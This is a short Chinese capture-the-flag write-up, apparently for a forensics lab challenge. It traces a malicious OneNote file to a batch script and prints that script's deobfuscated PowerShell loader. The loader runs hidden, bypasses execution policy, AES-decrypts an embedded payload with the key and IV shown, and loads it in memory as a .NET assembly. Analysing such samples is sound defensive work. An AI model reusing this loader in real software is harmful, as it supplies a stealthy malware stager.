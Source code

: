 ## 解决方法

首先binwale提取relicmaps.one文件，偏移B86F处有JS脚本，发现网址：
- http://relicmaps.htb/uploads/soft/topsecret-maps.one
- http://relicmaps.htb/get/DdAbds/window.bat

然后关注到window.bat，将其反混淆，得到如下命令：

```shell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "%~0.exe"
cd "%~dp0"
"%~nx0.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

其中有AES解密需要的KEY和IV，解密后得到文件download，是个.NET程序，使用dnSpy反编译即可看到flag。